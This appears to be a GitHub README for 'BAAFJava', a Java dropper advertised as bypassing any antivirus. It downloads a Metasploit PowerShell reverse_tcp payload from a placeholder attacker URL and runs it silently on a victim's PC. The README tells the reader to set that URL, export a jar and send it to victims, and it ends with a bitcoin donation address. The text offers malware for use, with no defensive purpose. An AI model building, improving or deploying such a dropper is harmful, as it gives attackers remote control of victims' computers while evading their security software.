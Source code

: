 # BAAFJava
Bypass Any Antivirus Firewall
Metasploit powershell exec in java, bypass any antivirus. 

Bypass any anti-virus with powershell payload,
this shit get the txt uploaded powershell and insta-execute on the victim pc,

	-> u can create the powershell reverse_tcp payload script on the metasploit framework
	windows/meterpreter/powershell_reverse_tcp.txt 
	 Script dont open the cmd console
	 Created by Gabriell H. Foda-se Use por sua responsabilidade!
	 ______________________________________________________________________________
	 
	private static final String HTTP = "http://xxx.xxx.xx.xx.xx:8080/xxx.txt";
                              You need to change this url /\ /\ /\
	
And export jar file and send it. Be fun.

Bitcoins Donate: 1BseU69CoQnSMDWc24Qnzq31s4qMh348v6
	
